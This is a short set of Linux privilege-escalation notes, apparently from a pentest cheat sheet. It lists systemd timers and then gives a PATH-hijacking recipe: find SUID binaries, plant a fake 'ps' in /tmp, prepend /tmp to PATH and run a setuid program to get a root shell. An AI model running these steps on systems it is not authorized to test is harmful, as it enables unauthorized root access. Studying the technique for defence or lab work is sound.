 ## Systemd timers

```powershell
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## PATH Variables
First, search for the file having SUID or 4000 permission with help of Find command.
```bash
$find / -perm -u=s -type f 2>/dev/null
#home/quac/script/shell
```

### If executing `ps` in the shell, Example:
```bash
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("ps");
}
```
Then:
`Method 1:`
```bash
$cd /tmp
$echo "/bin/bash" > ps
$chmod 777 ps
$echo $PATH
$export PATH=/tmp:$PATH
$cd /home/raj/script
$./shell
$whoami
#root
```

`Method 2:`
```bash
cd /home/quac/script/
cp /bin/sh /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```
